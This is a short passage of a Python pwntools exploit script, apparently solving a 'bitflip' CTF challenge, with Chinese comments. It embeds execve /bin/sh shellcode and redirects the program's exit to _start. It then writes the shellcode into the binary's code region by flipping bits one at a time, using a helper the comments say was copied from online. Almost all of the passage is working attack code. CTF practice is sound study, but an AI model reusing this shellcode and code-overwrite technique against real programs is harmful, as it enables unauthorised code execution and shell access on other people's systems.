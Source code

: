     exit()

c = process("./bitflip")

# execve binsh 27bytes
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
scbuf_addr = 0x401110  # 貌似不会被执行，可以放心写入（
origcode = ELF("./bitflip").read(scbuf_addr, 27)

# 网上抄来的按情况自动反转bit以写入shellcode的工具函数
def write_shellcode():
    for i in range(27):
        # after a xor, the bits corresponding to 1 differ in the original
        diff = origcode[i] ^ ord(shellcode[i])
        # itr is the no. of ones present in binary representation of the i byte
        itr = format(diff, '07b').count('1')
        for j in range(itr):   # iterate till the byte is equal to the corresponding shellcode byte
            # idx is the first 1 from the end, i.e the index of the last differing bit
            idx = format(diff, '07b')[::-1].find('1')
            change(scbuf_addr+i, idx)  # write it in the code
            ''' Updating the value of diff to account for the bit we just flipped '''
            fmt = format(diff, '07b')
            tmp = list(fmt)
            if tmp[len(tmp)-idx-1] == '0':
                tmp[len(tmp)-idx-1] = '1'
            else:
                tmp[len(tmp)-idx-1] = '0'
            t = "".join(tmp)
            diff = int('0b'+t, 2)


def change(addr, idx):
    c.recvuntil("Where do you want to flip?")
    a = hex(addr)+" "+str(idx)
    c.sendline(a)
    print(a)


c.recvuntil("Where do you want to flip?")
c.sendline("0x401296 4")  # call _start instead of exit
write_shellcode()
c.sendline("0x401296 6")
